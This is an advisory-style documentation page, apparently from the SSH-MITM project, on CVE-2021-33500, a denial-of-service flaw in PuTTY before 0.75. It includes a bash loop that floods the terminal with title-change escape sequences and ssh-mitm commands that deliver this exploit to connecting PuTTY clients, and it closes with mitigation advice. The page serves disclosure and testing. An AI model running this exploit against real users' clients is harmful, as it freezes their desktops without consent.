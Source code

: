 :fas:`times;sd-text-secondary` CVE-2021-33500
=============================================

.. card::

    :bdg-warning:`CVSS 7.5` CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
    ^^^
    PuTTY before 0.75 on Windows allows remote servers to cause a denial of service
    (Windows GUI hang) by telling the PuTTY window to change its title repeatedly at high speed,
    which results in many SetWindowTextA or SetWindowTextW calls.

    NOTE: the same attack methodology may affect some OS-level GUIs on Linux or other platforms for similar reasons.
    +++
    **Affected Software:**

    * PuTTY < 0.75


Description
-----------

A vulnerability in PuTTY < 0.75 freezes the entire, leading inevitably to a manual restart. This happens when executing
a simple command to repeatedly change the terminals title.

Set window title from terminal:

.. code-block:: bash

    $ PS1=''
    echo -ne "\033]0; NEW_TITLE \007"

Thus, an working exploit would be:

.. code-block:: bash

    $ PS1=''
    while :
    > do
    > echo -ne "\033]0; NEW_TITLE${RANDOM}  \007"
    > done


Using the injection functionality of the mitm Server, this exploit can be executed immediately when a client connects
to the mitm server via PuTTY.

Test with SSH-MITM
------------------

A proof of conecpt exploit is integrated in the extra package ssh-mitm-plugins.

You can install the required extra packages with following command:

.. code-block:: bash

    $ python3 -m pip install ssh-mitm[plugins]


After installing the plugins you can start ssh-mitm:

.. code-block:: bash

    $ ssh-mitm server --ssh-interface puttydos

When you have logged in with PuTTY to the ssh-mitm server,
ssh-mitm executed the exploit and PuTTY will freeze the desktop.



Mitigation
----------

Update PuTTY to version >= 0.75


References
----------

* https://nvd.nist.gov/vuln/detail/CVE-2021-33500